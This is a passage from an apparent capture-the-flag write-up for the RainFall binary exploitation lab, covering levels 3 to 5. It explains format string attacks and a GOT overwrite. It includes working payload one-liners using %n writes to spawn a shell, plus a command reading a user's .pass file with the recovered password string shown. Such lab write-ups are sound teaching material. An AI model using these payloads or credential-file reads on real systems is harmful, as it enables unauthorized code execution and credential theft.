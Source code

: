 Since we have the address of function `m()`, and we know the position of the format string as argument to `printf()`, we can compose a conversion string to insert an arbitrary value at that specific location:

[`address of m (4 bytes) + %60c (60 bytes) + %4$n`]-> addres of m is now equal to 64
```shell-session
level3@RainFall:~$ (python -c "print '\x8c\x98\x04\x08' + '%60c' + '%4\$n'"; cat -) | ./level3

Wait what?!
cat /home/user/$(whoami)/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

# level4

## Type of exploit

Same as level3, except `m` is not a function but a global variable:

Format String Attack: no variadic argument to printf + no sanitization of user-defined conversion string fed to `printf()` allows to print and edit values in memory.

Lack of ASLR makes it easy to find address of a given symbol, namely `m`.

## Details of level4

Same as level3, except the value to insert at the global variable symbol `m` is not `64`(10) but `16930116`(10).

Steps:
1. gets address of `m` (`0x08049810`)
2. find position of conversion string in arguments to printfs (12th)
3. use `%12$n` and build format string

```shell-session
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112c" + "%12$n"' | ./level4
```

# level5

## Type of exploit

Format String Attack + GOT overwrite

## Details of level5

There is an uncalled function `o()` in the binary that calls a shell.

`main()` calls `p()` which calls `fgets(stdin)` then `printf(user_input)` and then `exit@plt`.

We can use a format string attack to overwrite the address pointed by the pointer the GOT provided with the address of `o()`.
